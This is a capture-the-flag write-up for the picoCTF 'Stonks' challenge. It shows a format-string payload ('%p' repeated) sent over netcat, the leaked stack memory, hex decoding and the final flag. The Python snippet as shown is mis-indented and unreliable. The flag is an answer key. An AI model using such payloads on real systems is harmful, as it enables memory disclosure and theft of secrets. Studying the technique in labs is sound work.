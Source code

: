 I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! vuln.c nc mercury.picoctf.net 33411

Stonks


# Description:

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! vuln.c nc mercury.picoctf.net 33411
Hints

1. Okay, maybe I'd believe you if you find my API key.



# Solution

Connect to the shell with nc mercury.picoctf.net 33411


‘’’
apurva@Deepas-MacBook-Air ~ % nc mercury.picoctf.net 33411
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Buying stonks with token:
0x98c44700x804b0000x80489c30xf7f08d800xffffffff0x10x98c21600xf7f161100xf7f08dc7(nil)0x98c31800x10x98c44500x98c44700x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x633432610x366134310xffb9007d
Portfolio as of Sun Dec 8 15:18:23 UTC 2024


1 shares of TA
1 shares of EHBQ
1 shares of PDP
16 shares of YEA
31 shares of A
60 shares of QEW
209 shares of GLU
20 shares of KQM
27 shares of KN
228 shares of NQPR
376 shares of DXOW
869 shares of XWPM
Goodbye!
apurva@Deepas-MacBook-Air ~ % 
‘’’

This part:
0x98c44700x804b0000x80489c30xf7f08d800xffffffff0x10x98c21600xf7f161100xf7f08dc7(nil)0x98c31800x10x98c44500x98c44700x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x633432610x366134310xffb9007d

looks like hex. I reformatted it in notepad (and also took out everything before (nil) which I guess was padding or something) and jammed it into HxD which gives:
ocip{FTC0l_I4_t5m_ll0m_y_y3nc42a6a41}

it looks like ocip{FTC0l_I4_t5m_ll0m_y_y3nc42a6a41}is the flag except each 4 character block is reversed so I wrote a some code to output the proper flag.
‘’’ 
string = "ocip{FTC0l_I4_t5m_ll0m_y_y3nc42a6a41}" 
out = "" 
temp = "" 
index = 0 
for char in string: 
 temp += char 
 index += 1 
 if index%4 == 0: 
  fwd = "" 
  for temp_char in temp: 
   fwd = temp_char + fwd 
  out += fwd 
 temp = "" 
print(out)
‘’’

# Flag:
> picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}
